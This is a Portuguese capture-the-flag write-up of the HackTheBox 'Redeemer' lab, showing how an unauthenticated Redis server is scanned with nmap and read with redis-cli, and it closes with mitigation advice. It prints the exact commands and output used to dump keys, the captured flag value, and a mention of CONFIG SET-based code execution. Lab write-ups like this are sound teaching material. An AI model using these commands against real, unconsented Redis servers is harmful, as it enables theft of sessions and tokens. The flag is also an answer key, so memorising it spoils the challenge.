




# HackTheBox — Redeemer (Tier 0)

## Informações

| Campo | Detalhe |
|---|---|
| **Plataforma** | HackTheBox Starting Point |
| **Tier** | 0 |
| **Dificuldade** | Very Easy |
| **Serviço** | Redis |
| **IP alvo** | 10.129.94.20 |

---

## Contexto

Máquina Linux com uma instância Redis exposta publicamente sem autenticação. Redis é um banco de dados chave-valor em memória — quando mal configurado, qualquer cliente pode se conectar, listar e ler todas as chaves armazenadas, incluindo dados sensíveis.

---

## Reconhecimento

O nmap padrão não retornou resultados — o IP terminava em `.255` (comportamento de broadcast) e o host não respondia a pings. Solução: flag `-Pn` para pular a descoberta de host e forçar o scan.

Scan direcionado à porta padrão do Redis:

```bash
nmap -Pn -p 6379 -sV 10.129.94.20
```

Resultado:

```
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7
```



Porta 6379 aberta, Redis 5.0.7 sem autenticação.

---

## Exploração

Conectei diretamente com o cliente `redis-cli` especificando o host alvo:

```bash
redis-cli -h 10.129.94.20
```

Dentro do prompt do Redis, executei `info` para coletar informações do servidor:

```
redis_version:5.0.7
os:Linux 5.4.0-77-generic x86_64
tcp_port:6379
config_file:/etc/redis/redis.conf
```



Verifiquei quantas chaves existiam no banco e listei todas:

```
10.129.94.20:6379> DBSIZE
(integer) 4

10.129.94.20:6379> KEYS *
1) "temp"
2) "stor"
3) "numb"
4) "flag"
```



A chave `flag` estava visível. Leitura direta:

```
10.129.94.20:6379> GET flag
"03e1d2b376c37ab3f5319922053953eb"
```



---

## Comandos Redis utilizados

| Comando | Função |
|---|---|
| `redis-cli -h <IP>` | Conectar ao servidor Redis remoto |
| `info` | Exibir informações do servidor |
| `DBSIZE` | Retornar número de chaves no banco ativo |
| `KEYS *` | Listar todas as chaves |
| `SELECT <n>` | Trocar de banco de dados (Redis tem 16 por padrão) |
| `GET <chave>` | Ler o valor de uma chave |

---

## Impacto

Redis sem autenticação exposto na internet permite leitura e escrita irrestrita de todos os dados em memória. Em ambientes reais, Redis armazena sessões de usuários, cache de aplicações, filas de tarefas e tokens — tudo acessível sem credencial. Além disso, versões antigas do Redis permitem escrita de arquivos no sistema via comandos `CONFIG SET` + `SAVE`, o que pode levar a RCE.

---

## Mitigação

Configurar autenticação no Redis com `requirepass` no `redis.conf`. Nunca expor a porta 6379 diretamente na internet — usar firewall para restringir acesso apenas a hosts internos. Atualizar para versões recentes que têm ACL (controle de acesso por usuário).

---

## Aprendizados

- Flag `-Pn` no nmap ignora a descoberta de host via ping — essencial quando o alvo não responde a ICMP ou o IP tem comportamento incomum.
- Redis sem autenticação é equivalente a um banco de dados completamente aberto — conexão direta sem credencial.
- `KEYS *` lista tudo no banco ativo. `SELECT <n>` permite navegar entre os 16 bancos disponíveis no Redis.
- Serviços de cache e banco em memória (Redis, Memcached) são frequentemente esquecidos em hardening — alto valor em reconhecimento de rede interna.
